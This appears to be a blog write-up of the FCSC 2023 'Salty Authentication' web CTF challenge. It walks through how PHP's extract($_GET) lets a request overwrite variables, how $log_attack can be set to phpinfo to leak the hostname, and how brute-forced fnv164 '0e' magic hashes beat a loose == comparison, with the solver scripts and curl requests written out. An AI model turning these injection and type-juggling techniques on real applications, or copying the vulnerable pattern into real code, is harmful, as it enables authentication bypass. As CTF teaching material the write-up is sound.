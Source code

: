 ```yaml
---
title: CTFs | FCSC2023 | Salty Authentication
author: Stillwolfing
date: 2023-05-05
categories: [CTFs, FCSC2023, Web]
tags: [CTF, FCSC, Web, magic hash, type juggling]
permalink: /CTFs/FCSC2023/web/salty_authentication
---
```


Here is the context:

![context](/assets/img/CTFs/FCSC2023/web/salty_authentication/context.png)

I did not solved this challenge during the CTF, but I solved it after.

Here is the main page:

![main_page](/assets/img/CTFs/FCSC2023/web/salty_authentication/main_page.png)


We are presented the php code of the page:

```php
<?php

error_reporting(0);

include('flag.php');
$salt = bin2hex(random_bytes(12));

extract($_GET);

$secret = gethostname() . $salt;

if (isset($password) && strlen($password) === strlen($secret) && $password !== $secret) {
    if (hash('fnv164', $password) == hash('fnv164', $secret)) {
        exit(htmlentities($flag));
    } else {
        echo('Wrong password!');
        exit($log_attack());
    }
}

highlight_file(__FILE__);

?>
```

The flag is included from flag.php.

### The flag

```php
if (hash('fnv164', $password) == hash('fnv164', $secret)) {
        exit(htmlentities($flag));
    }
```

To reveal the flag, we need to have the hash of the secret equal to the hash of the password.

We can define some variables in the url thanks to the extract($_GET). So, we can define the $password variable.

First we have to pass this test:

```php
if (isset($password) && strlen($password) === strlen($secret) && $password !== $secret)
```

We can see that $password has to be set. It has to be the same length as $secret. And it has to be different from $secret.

As $password has to be different from $secret, we cannot use the same string for both. So, we have to find a hash collision (different values, same hash).


$secret is the concatenation of the hostname and the salt which is a random string of 12 bytes.

## Hostname length

The first thing that came to my mind is to use ```extract($_GET)``` to rewrite the $salt variable. Unfortunately, we cannot rewrite the $secret variable as it is defined after the extract.

With this, we can pass the first test by finding the length of the hostname.

To do this, we rewrite the $salt variable as an empty string. Then, we add a character to the $password variable until we get the "Wrong password!" message.

```python

import requests
import time

password = ""
salt=""
counter = 0

while 1:
    counter += 1
    password += "1"
    print(counter)

    url = f"https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password={password}"

    r = requests.get(url)

    if "Wrong password!" in r.text:
        print(f"Hostname length: {counter}")
        break
    
    time.sleep(5)
```

Output:
![hostname_length](/assets/img/CTFs/FCSC2023/web/salty_authentication/hostname_length.png)

The hostname length is 12.

## Hostname

Now we need to find the hostname. What we can notice is this:

```php
else {
        echo('Wrong password!');
        exit($log_attack());
}
```

If the hashes are different, we get the "Wrong password!" message. And the $log_attack() function is called.

As log_attack is a variable, we can rewrite it with extract($_GET). So, we can define the $log_attack() function called when the hashes are different.

Let's call phpinfo to get the hostname:

url: https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password=123456789012&log_attack=phpinfo

Output:
![phpinfo](/assets/img/CTFs/FCSC2023/web/salty_authentication/phpinfo.png)

We've got the hostname: 9be4a60f645f

## Type juggling

The == operator is used to compare the hashes. It's a weak comparison. It's a type juggling comparison.

With this operator, if a comparaison is made between a string and an integer, the string is converted to an integer.

So, if the string begins with "0e", it will be converted to 0. It's a magic hash!

[type juggling article](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

[magic hashes article](https://github.com/spaze/hashes)

## Magic hash

Let's try to find a magic hash for the secret. The secret has to begin with the hostname then we can use the salt to change the value.

Code to find a magic hash:

```php
<?php

$counter =0;
while(1){
    $salt = bin2hex(random_bytes(6));
    $secret = "9be4a60f645f" . $salt;
    $counter+=1;
    $hash = hash('fnv164',$secret);

    if ($hash==0) {
        echo ("secret: ".$secret."\n");
        echo ("salt: ".$salt."\n");
        echo ("hash result: ".$hash."\n");
        echo ("iteration number: ".$counter."\n");
        exit();
    }
}

?>
```

Output:

![salt](/assets/img/CTFs/FCSC2023/web/salty_authentication/salt.png)

Now let's find a magic hash for the password with the same length:

```php
<?php

$counter =0;
while(1){
    $password = bin2hex(random_bytes(12));
    $counter+=1;
    $hash = hash('fnv164',$password);

    if ($hash==0) {
        echo ("password: ".$password."\n");
        echo ("hash result: ".$hash."\n");
        echo ("iteration number: ".$counter."\n");
        exit();
    }
}

?>
```

Output:

![password](/assets/img/CTFs/FCSC2023/web/salty_authentication/password.png)

Ok so if put salt="70f9186fa35c" and password="8215d358c2d73169d5895016", the secret and the password will have the same length while having different values so we can pass the first test.

As both hashes begins with "0e", they will be converted to 0. So, the hashes will be equal and we will get the flag.

```bash
curl "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=70f9186fa35c&password=8215d358c2d73169d5895016"
```

We get the flag!
![flag](/assets/img/CTFs/FCSC2023/web/salty_authentication/flag.png)

